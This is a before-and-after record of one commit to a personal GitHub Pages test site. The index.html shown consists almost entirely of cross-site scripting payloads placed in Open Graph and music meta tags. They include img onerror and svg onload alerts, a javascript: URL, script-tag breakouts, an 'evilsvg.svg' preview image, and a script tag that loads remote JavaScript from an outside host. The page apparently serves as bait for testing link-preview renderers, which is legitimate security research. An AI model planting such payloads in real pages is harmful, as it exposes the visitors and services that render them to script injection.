

Before and after one commit to efqr/efqr.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the full height of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
new test

```diff
--- a/index.html
+++ b/index.html
@@ -1,13 +1,13 @@
 <!DOCTYPE html>
 <html>
 <head>
-<meta property="og:site_name" content="<img src=x onerror=alert(1) >abcdef">
-<meta property="og:description" content="<img src=x onerror=alert(1) >'>ghijklmno<svg onload=alert(2) ></svg>">
-<meta property="og:title" content="'><svg onload=alert(1); />pqrstuv">
+<meta property="og:site_name" content="<img src=x onerror=alert(1)>abcdef">
+<meta property="og:description" content="<img src=x onerror=alert(1)>'>ghijklmno<svg onload=alert(2)></svg>">
+<meta property="og:title" content="'><svg onload=alert(1);/>pqrstuv">
 <meta property="og:type" content='music.song'>
 <meta property="og:url" content='https://efqr.github.io/index.html'>
-<meta property="og:image" content="https://i.ytimg.com/vi/A3PDXmYoF5U/maxresdefault.jpg">
-<meta property="music:album" content="'><img src=x onerror=alert(1); />wxyz">
+<meta property="og:image" content="https://efqr.github.io/evilsvg.svg">
+<meta property="music:album" content="'><img src=x onerror=alert(1);/>wxyz">
 <meta property="music:album" content="javascript:alert(1)">
 <meta property="music:album" content="'><script src='https://brutelogic.com.br/1.js'></script>">
 <meta property="music:album" content="</script><script>alert(1)</script><script>">
@@ -15,6 +15,6 @@
 <meta property="music.album" content='");alert(1);//'>
 </head>
 <body>
-	<h1>This is a test</h1>
+	<h1>This is og test</h1>
 </body>
 </html>
```
